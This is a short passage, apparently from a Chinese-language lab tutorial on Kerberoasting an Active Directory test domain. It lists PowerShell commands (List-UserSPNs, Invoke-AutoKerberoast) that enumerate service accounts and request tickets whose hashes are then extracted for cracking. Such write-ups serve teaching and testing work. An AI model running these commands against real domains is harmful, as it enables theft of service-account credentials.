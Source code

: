 ```bash
List-UserSPNs -Domain "hacke.testlab"
```

[![](assets/1701606719-87d1d65a9ac8a14838c87ee80a3f67f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108163202-4aab45fe-7e11-1.png)  
d、获取与林中唯一用户 SPN 相关联的所有票证

```bash
Invoke-AutoKerberoast
```

[![](assets/1701606719-017516bf49447ea6095ec6cbc85731d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108163227-596c5704-7e11-1.png)  
e、从 Ticket 中提取 hash
